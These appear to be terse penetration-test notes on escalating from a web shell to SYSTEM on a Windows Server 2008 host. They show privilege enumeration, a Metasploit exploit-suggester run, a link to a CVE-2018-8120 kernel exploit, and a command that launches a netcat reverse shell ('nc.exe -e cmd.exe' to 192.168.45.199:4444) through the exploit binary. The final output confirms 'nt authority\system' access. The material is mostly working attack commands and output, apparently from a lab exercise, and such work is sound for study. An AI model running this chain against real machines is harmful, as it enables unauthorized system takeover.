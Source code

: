 C:\\wamp\\www\>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

msfconsole \> exploit suggester
\[\*\] 192\.168\.190\.46 \- Collecting local exploits for x86/windows\.\.\.
\[\*\] 192\.168\.190\.46 \- 193 exploit checks are being tried\.\.\.
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/cve\_2020\_0787\_bits\_arbitrary\_file\_move: The service is running, but could not be validated\. Windows Windows Server 2008 build detected\!
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/ms10\_015\_kitrap0d: The service is running, but could not be validated\.
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable\.
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/ms16\_016\_webdav: The service is running, but could not be validated\.
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/ms16\_075\_reflection: The target appears to be vulnerable\.
\[\+\] 192\.168\.190\.46 \- exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable\.

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120](#https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)


-  x86\.exe "nc\.exe \-nv 192\.168\.45\.199 4444 \-e cmd\.exe"

C:\\Tools\>whoami
whoami
nt authority\\system


